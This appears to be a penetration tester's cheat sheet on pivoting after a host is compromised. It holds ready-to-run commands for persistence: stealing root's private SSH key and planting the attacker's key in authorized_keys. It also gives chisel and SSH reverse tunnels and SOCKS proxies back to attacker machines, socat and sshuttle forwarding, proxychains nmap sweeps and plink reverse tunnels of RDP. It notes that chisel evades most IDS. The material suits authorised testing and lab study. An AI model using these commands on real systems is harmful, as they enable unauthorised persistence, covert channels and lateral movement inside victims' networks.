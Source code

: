 # Pivoting 

## Readme

https://cheatsheet.haax.fr/network/pivot_techniques/
https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html

## Note about chisel

chisel performs HTTP tunneling thus aboiding most IDS. Use encryption for better efficiency.

## Persist

It is important to establish persistence before moving forward with actions on objectives.

### Linux

#### private ssh key

1. copy roots private key: copy-paste in vim is enough

`vim root_key`

2. login via ssh using the key

`ssh -i root_key root@VICTIM_IP`

#### inject your own public key into authorized hosts

```bash
cat id_ed25519.pub >> authorized_keys

# root or any other user
ssh -l root VICTIM_IP
```

## Prot forwarding

```bash
# Listen on 443 and forward all incomming connections to local port 1389

socat -v TCP-LISTEN:443,reuseaddr,fork TCP:127.0.0.1:1389
```



##  Proxies

### Forward proxy

some service is listening at victim and connection is incomming from atacker 


### static  forwardin


 <local-interface>:<local-port>:<remote-host>:<remote-port>

which does  port forwarding, sharing server's `<remote-host>:<remote-port>` on clients `<local-interface>:<local-port>`
 
* workflow

Set up new server (this time non socks) on attacker

./chisel server --port 9902

Activate client on victims host

./chisel client 10.10.14.xxx:9902 192.168.1.15:8888:127.0.0.1:443 

So now listener is on 192.168.1.15:8888 which forwards requests to attacker's localhost port 443. Useful to make attacker's external server available from victim within restricted network.

### Reverse proxy

some service is listening at attacker AND connection is incomming from the victim outside firewall



#### static reverse

./chisel server -p 9903 --reverse on local 
./chisel client 10.10.xx.xx:9903 R:127.0.0.1:1280:172.16.xx.xx:80 &

This will open a listener on port 1280 on attackers localhost, and all connections to the target website on 172.16.xx.xx are going to be forwarded via pivot server at 10.10.xx.xx:9903

#### Dynamic reverse proxy

* In this scenario all ports from the victim pivot point aer redirected to attacker so attacker can access Next Victim, which
would be othervise not visible for his network adapter

`./chisel server -p 3333 --reverse --socks5`

* on server


```bash
sudo vim /etc/proxychains4.conf

# socks5 127.0.0.1 1080

./chisel client 172.16.40.5:3333 R:1080:socks

# test

proxychains nmap -F 10.185.10.0/24
```

### Using SSH


#### SSH Local Port Forwarding

* we need to forward packets to target via ssh client's port 4455 over sshserver to target's port 445. where 192.168.11.2 is a pivot point.

`ssh -N -L 0.0.0.0:4455:10.16.223.217:445 root@192.168.11.2`

Attacker can access remote victim port 445 locally on port 4455.

#### SSH Remote Port forwarding

`ssh -N -R 9999:localhost:8080 user@remote`

This command tells SSH to set up a tunnel from the remote machine's port 9999 to your local machine's port 8080. user@remote should be replaced with your actual SSH login credentials and server.

#### SSH Dynamic Port forwarding -> SOCKS

```bash
ssh -D 8080 -f -C -q -N user@yourserver.com
```
-D 8080 sets up the SOCKS proxy on port 8080.

-f asks SSH to go into the background just before command execution.

-C enables compression.

-q enables quiet mode.

-N tells SSH not to execute a remote command.

Then make a socks5 entry in proxy chains for .

##### Multi Hop Scenatio

lets assume: localhost -> 10.11.2.3 -> tor


### Using Socat

#### Forward proxy with socat

`socat -ddd TCP-LISTEN:7777,fork TCP:10.1.11.213:3060`

This line is going to open a listener on 7777 and fork each new connection. New connections are then forwarded to `10.1.11.213:3060`.

This is especially useful if socat is installed on target but not possible to install chisel.

## Configuration for Burp

It can be tricky to use burp with socks but here is a good workaround

1. Setting -> Network -> Connections -> SOCKS proxy 
2. check> Use SOCKS proxy
3. `127.0.0.1 sock_port`
4. in browser selects burps normal proxy `default is 127.0.0.1 8080`
5. no when you browse: attacker -> burp proxy -> socks proxy -> victim
6. Profit!


## scanning with nmap

* run for getting open ports
`seq 1 65535 | xargs -P 50 -I port proxychains -q nmap -p port -sT -T4 10.42.42.2 -oG 10.42.42.2 --open --append-output 10.42.42.2 -Pn -n`

* remove bad lines and save to log file
`grep '/open/' 10.42.42.2 | uniq > openports.log`

* then scan each port separately

## Transparent VPN over ssh

* setup port forward to ssh server: `socat TCP-LISTEN:2222, fork TCP:10.11.222.3:22`
* use sshuttle (requires root privleges): sets up VPN and tunnels mentioned subnets

```bash

sshuttle -r root@127.0.0.1:2222 10.4.22.0/24 192.168.1.0/24

# now routing is setup on localhost to reach mentioned subnets
```

## SSH On windows with plink

use plink to tunnel once reverse shell on windows is obtained

`plink.exe -ssh -l kali -pw Password -R 127.0.0.1:9833:127.0.0.1:3389 192.168.45.203`

## DNS tunneling

